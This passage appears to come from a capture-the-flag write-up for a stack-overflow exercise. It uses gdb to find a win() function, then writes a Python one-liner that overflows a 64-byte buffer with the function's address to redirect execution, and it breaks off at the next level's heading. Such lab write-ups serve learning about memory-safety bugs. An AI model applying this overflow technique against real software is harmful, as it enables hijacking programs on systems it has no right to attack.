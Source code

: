 From this dump we can see that the main function doesn't contain the message that we want the program to print, therefore we can assume that it has to be in some other function that doesnt get called by the main function.

Being in `gdb` and using `info functions` we can see that there are 2 functions

```sh
File stack3/stack3.c:
int main(int, char **);
void win(void);
```

In addition to the main func there is a win func. After disassembling it we can see it indeed contains the string we want our program to print.

![img](https://i.imgur.com/OWThF5u.png)

(address 0x8048540 contains "code flow successfully changed")

So we need to overwrite the a variable to make it call `win function`. The first address of the funciton is what we need to call it (0x08048424).

We can check the buffer again (it should be 64 bytes like before), by using a python script:

```sh
(python -c "print 'A'*64";) | ./bin
>
#nothing, no overflow
(python -c "print 'A'*65";) | ./bin
calling function pointer, jumping to 0x00000061
Segmentation fault
# we get segmentation fault
```

To create an overflow we can again use a python script again and write the memory location bytes of the win funciton at the end of 64 bytes worth of random other characters

```sh
(python -c "print 'A'*64 + '\x24\x84\x04\x08'";) | ./bin

> code flow successfully changed
```

-   ## EX04

### Objective

This level is completed when you see the “code flow successfully changed” message.

### Binary functionality

This binary behaves the same as the last one. `./bin` seems to wait some input but doesn't print anything no matter the input.

### Process and solution

![img](https://i.imgur.com/kh0Kbrl.png)
